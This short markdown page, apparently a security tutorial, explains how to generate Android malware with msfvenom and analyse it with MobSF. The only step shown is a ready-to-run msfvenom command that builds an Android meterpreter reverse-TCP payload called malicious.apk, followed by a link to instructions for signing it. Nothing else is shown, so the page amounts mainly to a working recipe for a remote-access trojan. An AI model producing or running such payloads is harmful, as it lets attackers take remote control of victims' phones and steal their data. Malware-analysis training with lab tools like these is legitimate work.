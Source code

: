 # Generate and test android malware using MSfvenon & MobSF

## Generate Android payload (https://shell.anir0y.in/)

login to your kali linux machine, open terminal and type this command 

```bash
msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=10.10.10.10 lport=9001 R -o malicious.apk
```

it will generate a apk file. 

## addtional step [sign the apk file](singapk.md)


